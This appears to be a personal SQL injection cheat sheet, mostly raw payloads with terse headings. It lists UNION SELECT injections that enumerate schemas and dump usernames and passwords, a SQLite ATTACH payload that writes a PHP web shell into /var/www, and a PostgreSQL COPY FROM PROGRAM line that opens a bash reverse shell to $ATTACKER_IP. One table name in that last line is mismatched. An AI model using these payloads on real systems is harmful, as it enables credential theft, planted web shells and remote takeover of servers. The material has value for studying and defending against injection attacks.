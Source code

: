 get current database
---
#sql #database

```sql
database()
```
---
get current user
---
```sql
user()
```
---
get DB server version
--
```sql
@@version
```
---
List of possible SQLi payloads:
---
```wordlist
/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
```

Enumerate all DBs
---
```sql
' UNION SELECT 1,2,3,4,5,concat(schema_name) FROM information_schema.schemata -- '
```

```php
// information_schema,Staff,users
```
---
Get current DB name (not really necessary)
---
```sql
' UNION SELECT 1,2,3,4,5,database() -- -
```

```php
// Staff
```
---
Select all tables in DB 'Staff'
---
```sql
' UNION SELECT 1,2,3,4,5,concat('|>', TABLE_NAME, '<|') FROM information_schema.TABLES WHERE table_schema='Staff' -- '
```
---
Enumerate all columns in table 'StaffDetails'
---
```sql
' UNION SELECT 1,2,3,4,5,concat('|>',column_name) FROM  information_schema.COLUMNS WHERE TABLE_NAME='StaffDetails' -- '
```

```php
// id,firstname,lastname,position,phone,email,reg_date
```

Extract all records from table 'StaffDetails'

```sql
' UNION SELECT id,firstname,lastname,position,phone,email FROM StaffDetails -- '
```

Enumerate all columns in table "Users"

```sql
' UNION SELECT 1,2,3,4,5,concat('|>',column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='Users' -- '
```

```php
// UserID,Username,Password
```

Extract all records from table "Users"

```sql
' UNION SELECT 1,2,3,UserID,Username,Password FROM Users -- '
```

Repeat same for the DB 'users'

```sql
' UNION SELECT 1,2,3,4,5,concat('|>',TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='users' -- '
```

Enumerate all columns in table "UserDetails"

```sql
' UNION SELECT 1,2,3,4,5,concat('|>',column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='UserDetails' -- '
```

```sql
' UNION SELECT 1,id,firstname,lastname,username,password FROM users.UserDetails -- '
```

```shell
grep -shzoP "(\|>)(.*?)(<\|)" response | sed  "s/|>/ /g" | sed "s/<|/\n/g"
```
---
Other UNION SELECT:
---
```sql
0' UNION SELECT 1,2,database()
```

```sql
0' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
0' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.COLUMNS WHERE table_name = 'staff_users'
```

```sql
0' UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

---
SQL injection cheat sheet:
---
[https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

---
SQLite injection to command injection:
---
```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

---
SQLite SQLite3
---
```sql
SELECT sql FROM sqlite_master WHERE type='table'
```

```sql
SELECT * FROM sqlite_master WHERE type='table';
```
---
POSTGRES
---
List all tables in current DB
```sql
SELECT * FROM pg_catalog.pg_tables WHERE schemaname != 'pg_catalog' AND schemaname != 'information_schema';
```

Reverse shell via command injection option:
```sql
CREATE TABLE cmd_execit(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1\"'
```
